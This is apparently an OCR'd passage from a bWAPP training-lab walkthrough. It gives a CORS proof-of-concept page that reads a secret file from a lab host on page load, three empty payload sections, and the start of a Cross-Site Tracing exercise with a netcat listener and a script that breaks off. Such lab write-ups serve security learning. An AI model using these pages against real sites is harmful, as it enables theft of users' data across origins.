 ```
<html>
    <head>
    <script>
        function steal() {
            var r = new XMLHttpRequest();
            r.onreadystatechange = function() {
                if (r.readyState == 4 && r.status == 200) {
                    alert(r.responseText);
                }
            };
            r.open("GET", "http://192.168.1.10/bWAPP/secret-cors-1.php", true);
            r.send();
        }
    </script>
    </head>
    <body onload="steal()">
    </body>
</html>
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  Cross-Site Tracing (XST) 💀

Doesn't work on modern browsers as there are security enforcements. Maybe use phantomJS?

I modified the POC to use GET instead of TRACE. Additional changes from original xst.js include making the onreadystatechange NOT inline (seems to play better with FF).

1.  Start listener on attacking machine: nc -l 8888

2.  Modify xst.js to match your environment:

```
var xmlhttp;
// Code for IE7+, Firefox, Chrome, Opera, Safari
if (window.XMLHttpRequest)
{
	xmlhttp=new XMLHttpRequest();
}
// Code for IE6, IE5
else
{
	xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
}

xmlhttp.onreadystatechange=foo;

function foo()
{
	if (xmlhttp.readyState==4 && xmlhttp.status==200)
```